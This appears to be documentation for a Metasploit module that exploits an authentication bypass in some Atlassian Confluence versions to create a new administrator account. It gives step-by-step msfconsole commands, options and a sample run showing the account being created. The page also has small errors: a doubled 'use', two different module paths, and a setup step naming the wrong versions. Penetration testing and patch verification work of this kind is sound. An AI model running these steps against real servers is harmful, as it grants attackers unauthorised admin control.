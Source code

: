 # Description

This module exploits an Broken Access Control vulnerability in Atlassian Confluence servers leads to Authentication Bypass.

A specially crafted request can be create new admin account without authorization in the Atlassian server.
## Vulnerable Application
Affecting Atlassian Confluence from version 8.0.0 to before 8.3.3, from version 8.4.0 before 8.4.3 and from version 8.5.0 before 8.5.2.

## Verification Steps

- [ ] Setting up a working installation of Atlassian Confluence Server before 8.0.0
- [ ] Start `msfconsole`
- [ ] `use use auxiliary/admin/http/atlassian_confluence_auth_bypass`
- [ ] `set RHOST <IP>`
- [ ] `set RPORT <PORT>`
- [ ] `check`
- [ ] You should see `The target is vulnerable`
- [ ] `set NEW_USERNAME <username>`
- [ ] `set NEW_PASSWORD <password>`
- [ ] `run`
- [ ] You should get a new admin account. 

## Options
- **TARGETURI**: Path to Atlassian Confluence installation ("/" is the default)
- **NEW_USERNAME**: Username to be used when creating a new user with admin privileges.
- **NEW_PASSWORD**: Password to be used when creating a new user with admin privileges.
- **NEW_EMAIL**: E-mail to be used when creating a new user with admin privileges.

## Scenarios
## Tested on Confluence Server 8.0.0 with Linux target (Ubuntu 20.04)
```
msf6 > use auxiliary/multi/http/atlassian_confluence_auth_bypass
msf6 > auxiliary(admin/http/atlassian_confluence_auth_bypass) > set RHOSTS <YOUR_TARGET>
RHOSTS => <YOUR_TARGET>
msf6 > auxiliary(admin/http/atlassian_confluence_auth_bypass) > set NEW_USERNAME admin_1337
NEW_USERNAME => admin_1337
msf6 > auxiliary(admin/http/atlassian_confluence_auth_bypass) > set NEW_PASSWORD admin_1337
NEW_PASSWORD => admin_1337
msf6 > auxiliary(admin/http/atlassian_confluence_auth_bypass) > run
[*] Running module against <YOUR_TARGET>

[+] Admin user was created successfully. Credentials: admin_1337 - admin_1337
[+] Now you can login as adminstrator from: http://<YOUR_TARGET>:8090/login.action
[*] Auxiliary module execution completed
```